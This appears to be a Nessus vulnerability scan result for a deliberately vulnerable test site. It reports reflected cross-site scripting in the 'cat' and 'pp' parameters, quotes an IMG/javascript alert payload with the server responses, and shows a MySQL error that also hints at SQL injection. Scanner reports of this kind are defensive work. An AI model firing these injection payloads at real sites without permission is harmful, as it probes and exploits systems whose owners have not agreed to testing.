

# CGI Generic XSS (quick test)
VULNERABILITY TEST RESULT:

Using the GET HTTP method, Nessus found that :
+ The following resources may be vulnerable to cross-site scripting (quick test) :
+ The 'cat' parameter of the /listproducts.php CGI : /listproducts.php?cat=<IMG%20SRC="javascript:alert(104);">
-------- output --------
<!-- InstanceBeginEditable name="content_rgn" -->
<div id="content">
Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '=< IMG SRC="javascript:alert(104);">' at line 1
Warning: mysql_fetch_array() expects parameter 1 to be resource, b [...]
</div>
------------------------
+ The 'pp' parameter of the /hpp/ CGI : /hpp/?pp=<IMG%20SRC="javascript:alert(104);">
-------- output --------
<a href="?pp=12">check</a><br/>
<a href="params.php?p=valid&pp=%3CIMG+SRC%3D%22javascript%3Aalert%28104% 29%3B%22%3E">link1</a><br/><a href="params.php?p=valid&pp=<IMG SRC="java script:alert(104);">">link2</a><br/><form action="params.php?p=valid&pp= <IMG SRC="javascript:alert(104);">"><input type=submit name=aaaa/></form ><br/>
<hr>
<a href='http://blog.mindedsecurity.com/2009/05/client-side-http-p [...]
------------------------
Clicking directly on these URLs should exhibit the issue :
(you will probably need to read the HTML source) http://testphp.vulnweb.com/hpp/?pp=<IMG%20SRC="javascript:alert(104);">